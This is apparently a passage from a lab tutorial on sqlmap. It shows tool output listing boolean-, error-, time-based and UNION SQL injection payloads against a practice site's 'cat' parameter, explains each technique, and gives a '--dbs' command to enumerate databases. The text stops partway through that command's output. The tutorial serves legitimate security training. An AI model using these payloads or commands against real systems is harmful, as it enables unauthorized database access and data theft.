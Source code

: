 ```shell
[text removed]
[08:45:04] [INFO] GET parameter 'cat' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable 
[text removed]
[08:45:08] [INFO] GET parameter 'cat' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
GET parameter 'cat' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

The results in the above terminal show us that different types of **SQL injection**, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind **SQL injection**, the **SQL** query is modified, and a boolean expression (that is always true, e.g., `1=1`) is included with the query to extract the information. Whereas in the error-based **SQL injection**, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other **SQL injection** techniques can also be employed to exploit a database.

The results from the command we executed for our target `http://sqlmaptesting.thm/search/cat=1` tell us that different types of **SQL injection** are possible on this URL. Let's use **SQLMap's** flags, which we studied earlier, to exploit them and extract some valuable data from the database.

To fetch the databases, we use the flag `--dbs`. Let's try this flag out with our vulnerable URL:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
```